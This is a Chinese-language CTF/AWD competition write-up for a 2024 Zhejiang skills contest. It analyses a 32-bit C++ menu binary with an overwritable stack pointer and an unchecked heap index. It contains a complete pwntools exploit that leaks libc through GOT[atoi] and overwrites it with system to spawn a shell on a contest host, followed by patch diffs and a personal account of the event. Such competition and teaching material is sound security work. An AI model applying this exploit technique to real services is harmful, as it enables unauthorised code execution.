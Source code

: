 ```yaml
---
title: 2024浙江通信行业职业技能竞赛 - awd
date: 2024/08/06 23:31:00
updated: 2024/09/11 19:03:00
tags:
    - awd
thumbnail: /assets/industrial2024/banner.jpg
excerpt: （信息安全测试员竞赛）下午的awd拿分拿到爽，最后团体第三
---
```


本次awd共2道web一道pwn

队友：Doddy & mysid

从上午的个人赛发现几乎都没什么人会pwn，疯狂拿分夺得第三！

## pwn赛题

{% note info fa-paperclip %}
题目可以在[Releases](https://github.com/RocketMaDev/CTFWriteup/releases/download/career/career.tar.zst)附件中找到
{% endnote %}

### 文件属性

|属性  |值    |
|------|------|
|Arch  |x86   |
|RELRO |No    |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.31-0ubuntu9.16|

### 程序粗解

C++菜单题，只用到了`cout`和`endl`，使用`atoi`来把输入的字符串转换为int

### 漏洞分析

1. `main`函数中输入菜单项时，在栈上存在可以覆盖的指针，随后可以对指针写入任意内容

![bug1](/assets/industrial2024/bug1.png)

{% note purple fa-exclamation %}
`"%4094s"`不允许修改，否则过不了check
{% endnote %}

![add](/assets/industrial2024/add.png)

2. `edit`函数中输入的索引可以基于`heap`做任意写，未经检查

![bug2](/assets/industrial2024/bug2.png)

### 个人题解

可以先利用任意地址写把`GOT[atoi]`写到`heap`上，这样`show`就能leak libc；
然后再利用`edit`就可以把`system`的地址写上去，最后输入 *'/bin/sh'* 就可以拿shell

> 本来想再次利用scanf原语的，但是输入的是`system`的数字，实际写的时候却变成了-1，
> 知道原因的话可以评论

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './pwn3'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
        libc = ELF('/usr/lib32/libc.so.6')
    else:
        sh = remote('10.103.2.3', 9999)
        libc = ELF('./libc.so.6')
    elf = ELF(EXE)

    sh.sendlineafter(b'shop===', b'1'.ljust(0x30, b'\0') + p32(elf.symbols['heap']))
    sh.sendlineafter(b'Size', str(elf.got['atoi']).encode())
    sh.sendlineafter(b'shop===', b'3')
    sh.sendlineafter(b'Index', b'0')
    sh.recvuntil(b'content:')
    
    libcBase = u32(sh.recv(4)) - libc.symbols['atoi']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))
    libc.address = libcBase
    info(f'system@{libc.symbols["system"]:#x}')

    sh.sendlineafter(b'shop===', b'4'.ljust(0x30, b'\0') + p32(elf.got['atoi']))
    # sh.sendlineafter(b'Size', str(libc.symbols['system']).encode())
    sh.sendlineafter(b'Index', b'-7')
    sh.sendlineafter(b'content:', p32(libc.symbols['system']))
    sh.sendlineafter(b'shop===', b'/bin/sh')

    sh.clean()
    sh.interactive()
```

### 参考修复方案

先上个通用沙箱，然后patch以下问题

```diff
--- orig.S
+++ patched.S
@@ -8049b69,8049b7c +8049b69,8049b7c @@
 ; main
-8d 85 f4 ef ff ff      lea eax, [ebp - 0x100c]
-83 c0 30               add eax, 0x30
-8b 00                  mov eax, DWORD PTR [eax]
+8d 83 60 00 00 00      lea eax, [ebx + 0x60]   ; &data_start
+90                     nop
+90                     nop
+90                     nop
+90                     nop
 83 ec 0c               sub esp, 0xc
 50                     push eax
 e8 2a fa ff ff         call add
@@ -8049a95,8049ab3 +8049a95,8049ab3 @@
 ; edit
 8b 45 f0               mov eax, DWORD PTR [ebp - 0x10]
 8d 14 85 00 00 00 00   lea edx, [eax * 4]
-8d 83 70 00 00 00      lea eax, [ebx + 0x70]   ; heap
-01 d0                  add eax, edx            ; &heap[index]
+8d 83 68 00 00 00      lea eax, [ebx + 0x68]   ; &DW.ref.__gxx_personality_v0
+90                     nop
+90                     nop
 83 ec 04               sub esp, 0x4
 6a 08                  push 0x8
 50                     push eax
 6a 00                  push 0x0
 e8 0c f8 ff ff         call read
```

第一处修改，把地址修改为bss上的地址个人认为比较好，但是第二处修改由于本质上没有做检查，
忽略了`index`，实际上有所疏漏，只是能过check，不能算一个好的方案

{% folding pink::比赛经历分享 %}
7月31号到达酒店，第二天作为凌武科技实习生参加比赛。早上是个人赛，理论题+CTF，
下午是团队赛AWD，8月3号还有一天的渗透赛，我没报名，提前溜了

系统用的是跟上海赛一模一样的系统

![live](/assets/industrial2024/live.jpg)

中饭主办方提供了堂食，还不错

![lunch](/assets/industrial2024/lunch.jpg)

下午打awd的时候，由于场上没多少人会pwn（由上午的个人赛中，
pwn的简单题除了我只有1人解出可见），当我拿出exp时，那一轮直接拿了900+的分，
不过后面强队修洞，弱队关服务， 最后一轮只拿了300+分。
最后也是顺利拿下了第三名，晚上出去搓了一顿

![dinner](/assets/industrial2024/dinner.jpg)

比赛还发了参赛证，长下面这样，顺便还贴了前几名的成绩

![score](/assets/industrial2024/score.jpg)

*更新于24/09/11*

个人赛只打了2道pwn+1道简单的逆向，理论题都是瞎做的，结果意外拿了个人三等奖，
团队最后拿了二等奖，后面去移动大厦领奖了。大公司的装修就是不一样啊

![conference](/assets/industrial2024/conference.jpg)
{% endfolding %}

